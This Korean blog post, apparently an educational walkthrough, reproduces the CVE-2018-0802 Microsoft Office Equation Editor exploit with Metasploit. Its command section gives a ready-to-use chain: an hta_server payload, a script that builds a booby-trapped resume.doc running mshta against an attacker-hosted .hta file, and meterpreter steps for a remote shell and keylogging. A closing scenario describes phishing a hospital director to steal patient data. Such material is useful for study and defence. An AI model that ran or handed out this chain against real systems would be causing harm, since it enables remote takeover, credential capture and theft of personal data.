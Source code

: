 ```yaml
---
layout: post
title: CVE-2018-0802 MS Office 취약점 실습 (Metasploit)
categories: PoC
tags: [CVE, Metasploit]
---
```

# 목차
&nbsp;&nbsp;<a href="#{{ 1| downcase }}">1. Disclaimer</a><br>
&nbsp;&nbsp;<a href="#{{ 2| downcase }}">2. CVE-2018-0802 취약점 발생 원인 요약</a><br>
&nbsp;&nbsp;<a href="#{{ 3| downcase }}">3. PoC</a><br>
&nbsp;&nbsp;<a href="#{{ 4| downcase }}">4. 공격 코드 설명</a><br>
&nbsp;&nbsp;<a href="#{{ 5| downcase }}">5. References</a>
- - -
  
<h1 id="{{ 1| downcase }}">1. Disclaimer</h1>
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
<h1 id="{{ 2| downcase }}">2. CVE-2018-0802 취약점 발생 원인 요약</h1>
Microsoft Office의 2007, 2010, 2013, 2016 버전에서 발생되는 CVE-2018-0802 취약점은 Office 문서에 수식을 삽입하고 편집할 때 사용하는 컴포넌트인 EQNEDT32.exe에서 발생합니다.

EQNEDT32.exe에서 폰트 레코드명을 처리하는 과정에서 원본과 대상 버퍼의 크기를 체크하지 않는, 공격에 취약한 함수인 strcpy()가 사용되었습니다.

* SUB_41160F() 내부의 strcpy() – CVE-2017-11882 취약점 관련
* SUB_421774() 내부의 SUB_421E39() 에서의 strcpy() – CVE2018-0802 취약점 관련  

MS의 2017년 11월 패치 이후에는 SUB_41160F()함수의 strcpy() 전후 버퍼 크기를 확인하는 코드가 추가되었지만, SUB_421E39() 함수에 대해서는 조치가 취해지지 않았다고 합니다. 오히려 이 업데이트 이후에 SUB_41160F() 함수를 통과해 SUB_421E39()까지 제어가 넘어올 수 있게 되면서 ‘버퍼 오버플로우(Buffer Overflow)’ 공격이 발생될 수 있는 취약점이 존재합니다.
- - -
<h1 id="{{ 3| downcase }}">3. PoC</h1>
{% include youtube_embed.html id="PDPKtL5SQXM" %}
- - -
<h1 id="{{ 4| downcase }}">4. 공격 코드 설명</h1>
{% highlight text %}
> use exploit/windows/misc/hta_server
{% endhighlight %}
hta_server 모듈은 .hta 파일이 실행되고 파워쉘을 통해 공격자의 페이로드를 실행시켜주는 해당 .hta파일을 제공합니다.

{% highlight text %}
> set srvhost 192.168.55.32
{% endhighlight %}
활성화되어있는 로컬 호스트의 주소를 적여야 합니다. 저는 가상머신의 칼리 리눅스를 사용했으므로 칼리의 ip를 적어주었습니다.

{% highlight text %}
> exploit
{% endhighlight %}
이 모듈을 이용해 익스플로잇을 하면 공격 페이로드가 삽입된 .hta파일이 생성됩니다. http://공격자의_주소/랜덤문자열.hta 위치에서 호스팅됩니다.

{% highlight text %}
python RTF_11882_0802.py -c "mshta http://192.168.55.32:8080/Fkf0e3JN6.hta" -o resume.doc
{% endhighlight %}
MS Office 수식편집기 취약점인 CVE-2017-11882와 CVE-2018-0802의 뒷번호를 딴 RTF_11882_0802.py 파이썬 코드를 이용해 -c 옵션으로 방금 익스플로잇을 수행해서 생성된 .hta파일을 입력하고, 출력되는 Office 파일의 이름을 -o 옵션에 적어줍니다.

{% highlight text %}
> sessions -i 1
{% endhighlight %}
희생자가 .doc를 열면 세션이 활성화되고, 첫번째로 활성화된 세션과 연결을 맺습니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자의 시스템 정보를 가져옵니다.

{% highlight text %}
meterpreter > shell
{% endhighlight %}
희생자 컴퓨터에서 cmd 명령어를 입력할 수 있습니다.

{% highlight text %}
meterpreter > keyscan_start
{% endhighlight %}
희생자의 키보드 입력을 전달받습니다(키로깅).

{% highlight text %}
meterpreter > keyscan_dump
{% endhighlight %}
keyscan_start 부터 시작한 키로깅을 중단하고 로그 정보를 출력합니다.
- - -
<h1 id="{{ 5| downcase }}">5. 발생 가능한 시나리오</h1>
해커 A씨는 병원장 B씨의 개인정보와 고객 리스트를 해킹하려는 의도를 갖고 있었습니다. 그래서 사전조사를 통해 해커 A씨가 알아낸 것은, B씨가 운영하는 개인병원에서는 병원 내의 망분리도 되있지 않다는 것과 병원 내에는 Wifi 공유기만을 설치해 병원을 운영하고 있다는 것 이었습니다. 또한 A씨는 B씨의 개인병원 홈페이지 메인화면 아래쪽 footer 부분에 그의 이메일이 적혀있는 것을 발견했습니다.


<center><i>B씨의 개인병원 메인 홈페이지 화면</i></center>

<center><i>병원장 B씨 홈페이지 footer 부분에 적혀있는 이메일 주소</i></center>
(시나리오 예제 사이트는 [여기](http://jayboard.cafe24.com/emerald/index.html){:target="_blank"}에서 확인하실 수 있습니다.)

해커 A씨는 그의 스마트폰에 칼리리눅스를 설치하고, 환자인 척 B씨의 병원에 가서 wifi를 연결했습니다. 해커 A씨는 칼리리눅스의 메타스플로잇을 이용해 악성 데이터가 삽입된 .doc 파일을 제작하고, 병원장 B씨 에게 다음과 같은 이력서를 메일로 보냈습니다 :


<center><i>피싱을 위한 이력서 파일</i></center>
이렇게 A씨는 B씨를 피싱하는데 성공한 후, 미터프리터 세션을 이용해 keyscan을 수행하고, 병원장의 개인정보와 병원 고객의 데이터를 빼내는데 성공했다고 합니다.
- - -
  
<h1 id="{{ 6| downcase }}">6. References</h1>
* [CVE-2018-0802 Detail](https://nvd.nist.gov/vuln/detail/CVE-2018-0802){:target="_blank"}
* [17년 만에 드러난 취약점의 연쇄 작용](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=27369){:target="_blank"}
* [&#91;Research & Technique&#93; 마이크로소프트 오피스 원격 코드 실행 취약점](http://blog.skinfosec.com/221203066071){:target="_blank"}